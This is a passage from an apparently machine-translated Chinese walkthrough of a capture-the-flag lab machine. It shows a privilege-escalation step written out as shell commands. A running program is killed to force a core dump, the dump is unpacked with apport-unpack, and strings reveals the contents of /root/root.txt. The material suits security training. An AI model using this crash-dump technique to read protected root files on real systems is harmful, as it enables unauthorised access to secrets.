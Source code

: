# 紧急措施

将它放在保存点，切换到第二个 shell，查看正在运行的进程:

![](img/d52e902713d398218b6d04ee07f6d5a1.png)

查看在机器上运行的进程

终止进程以进行计数:

```
dasith@secret:~/local-web$ kill 96020
kill 96020
```

现在打开核心转储的包装，以便我们可以查看它:

```
dasith@secret:/opt$ cd /var/crash

dasith@secret:/var/crash$ ls -l
-rw-r----- 1 root   root   27203 Oct  6 18:01 _opt_count.0.crash
-rw-r----- 1 dasith dasith 28006 Nov 18 21:40 _opt_count.1000.crash
-rw-r----- 1 root   root   24048 Oct  5 14:24 _opt_countzz.0.crash

dasith@secret:/var/crash$ mkdir /dev/shm/pencer

dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /dev/shm/pencer

dasith@secret:/var/crash$ cd /dev/shm/pencer

dasith@secret:/dev/shm/pencer$ ls
<SNIP>
CoreDump
<SNIP>
```

# 根标志

我们现在也可以使用字符串来查看 CoreDump 文件的内容:

```
dasith@secret:/dev/shm/pencer$ strings CoreDump
strings CoreDump
<SNIP>
Enter source file/directory name:
%99s
Save results a file? [y/N]: 
Path: 
Could not open %s for writing
:*3$"
Save results a file? [y/N]: words      = 2
Total lines      = 2
/root/root.txt
ed72112dc7721f564f49b6846a2f0e22
```
